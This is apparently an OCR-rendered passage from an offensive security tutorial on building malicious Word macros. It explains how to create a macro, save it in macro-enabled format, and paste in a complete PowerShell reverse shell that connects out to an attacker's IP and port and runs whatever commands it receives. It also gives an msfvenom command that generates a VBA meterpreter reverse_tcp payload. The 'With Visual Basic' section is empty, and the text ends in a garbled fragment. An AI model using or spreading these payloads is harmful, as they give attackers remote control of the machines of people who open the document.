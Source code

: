In the Macro name section, choose to name your macro as `test`. Note that we need to select from the Macros in list `Document1` and finally select `create`. Next, the Microsoft Visual Basic for Application editor shows where we can write your code.

It is important that when you finished, you need to save it in `Macro-Enabled format` such as `.doc` and `docm`.

**With Powershell**

Copy the below into the macro code area. Don't forget to change the connection parameters and open a listener in your machine

```powershell
#Open a socket connection
$client = New-Object
System.Net.Sockets.TCPClient("IP",PORT);

$stream = $client.GetStream();

#Send shell prompt
$greeting = "PS " + (pwd).Path + "> "

$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();

[byte[]]$bytes = 0..255|%{0};

#Wait for response, execute whatever’s coming, then loop back
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){

$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);

$sendback = (iex $data 2>&1 | Out-String );

$sendback2 = $sendback + "PS " + (pwd).Path +
"> ";

$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};

$client.Close()
```

**With Visual Basic**

**With Msfvenom and Metasploit**

We can first generate a `vba` payload with msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f vba
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"